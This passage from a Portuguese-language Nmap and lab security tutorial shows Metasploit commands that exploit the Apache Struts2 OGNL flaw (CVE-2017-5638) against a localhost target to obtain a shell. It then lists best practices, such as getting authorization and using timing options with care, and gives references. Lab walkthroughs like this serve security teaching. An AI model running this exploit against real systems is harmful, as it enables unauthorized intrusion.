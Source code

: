 3. **Configurar e Executar o Exploit**:
   No console do Metasploit, execute os seguintes comandos:
   ```bash
   use exploit/multi/http/struts2_content_type_ognl
   set RHOST localhost
   set RPORT 8080
   run
   ```

   Se a exploração for bem-sucedida, você obterá uma sessão de shell na aplicação vulnerável.

---

## Boas Práticas
- **Autorização**: Sempre obtenha permissão antes de escanear uma rede ou sistema.
- **Desempenho**: Use opções de controle de desempenho (`-T4`, `-T5`) com cuidado para não sobrecarregar a rede.
- **Atualizações**: Mantenha o Nmap e seus scripts NSE atualizados.

---

## Referências
- [Site Oficial do Nmap](https://nmap.org/)
- [Guia do Nmap](https://nmap.org/book/)
- [Cheat Sheet do Nmap](https://nmap.org/cheatsheet.html)
- [Base de Dados CVE](https://cve.mitre.org/)
- [Docker Hub](https://hub.docker.com/)
- [NIST](https://nvd.nist.gov/vuln/detail/cve-2017-5638)

---